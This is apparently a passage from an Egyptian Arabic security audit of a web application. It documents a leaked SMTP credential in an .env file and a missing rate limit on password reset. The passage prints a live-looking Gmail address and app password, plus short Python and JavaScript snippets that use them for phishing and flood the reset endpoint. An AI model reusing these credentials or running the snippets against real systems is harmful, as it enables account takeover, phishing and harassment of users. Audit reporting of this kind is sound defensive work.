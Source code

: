 **الثغرة:**
```env
SMTP_USER=baraawael7901@gmail.com
SMTP_PASS=thebdtjxrxifnmat
```

**إزاي الهاكر يستغلها:**
```python
import smtplib

# يستخدم بيانات الإيميل
smtp = smtplib.SMTP('smtp.gmail.com', 587)
smtp.login('baraawael7901@gmail.com', 'thebdtjxrxifnmat')

# يبعت phishing emails باسم الموقع:
smtp.sendmail(
    'baraawael7901@gmail.com',
    'victim@example.com',
    'حسابك تم اختراقه! اضغط هنا للحماية...'
)
```

**الخطورة:**
- ✅ Phishing باسم الموقع
- ✅ Social engineering
- ✅ ضرر للسمعة
- ✅ الوصول لتاريخ الإيميلات

**التقييم:** 7.5/10 - **خطر!**

---

### 6️⃣ **مافيش Rate Limiting على Password Reset** 🟠

**الملف:** `src/middlewares/rateLimiter.js`

**الثغرة:**
```javascript
// مافيش rate limit خاص لـ forgot password
// بس global: 10,000 req/15min
```

**إزاي الهاكر يستغلها:**
```javascript
// يجرب 10,000 إيميل
const emails = ['user1@gmail.com', 'user2@gmail.com', ...];

for (const email of emails) {
  // يبعت password reset لكل واحد
  await fetch('/api/v1/auth/forgot-password', {
    method: 'POST',
    body: JSON.stringify({ email })
  });
}

// يزعج 10,000 user برسائل reset!
```
